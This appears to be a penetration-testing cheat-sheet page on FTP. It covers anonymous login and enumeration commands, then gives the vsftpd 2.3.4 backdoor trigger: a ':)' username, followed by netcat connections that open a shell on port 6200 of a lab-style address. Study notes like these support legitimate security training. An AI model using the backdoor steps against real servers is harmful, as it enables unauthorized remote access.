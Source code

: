 ```yaml
---
icon: file-chart-column
description: File Transfer Protocol
---
```


# FTP

{% tabs %}
{% tab title="Port" %}
```
21
```
{% endtab %}

{% tab title="Anonymous " %}
{% code title="Login sequence" %}
```
ftp <IP>
anonymous
```
{% endcode %}
{% endtab %}
{% endtabs %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```bash
searchsploit <version>
```

* <mark style="color:purple;">Always check the root path.</mark>
* <mark style="color:purple;">Check where you land:</mark>

```bash
pwd
```

* <mark style="color:purple;">List directories:</mark>

```bash
dir
```
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```

***


{% endhint %}

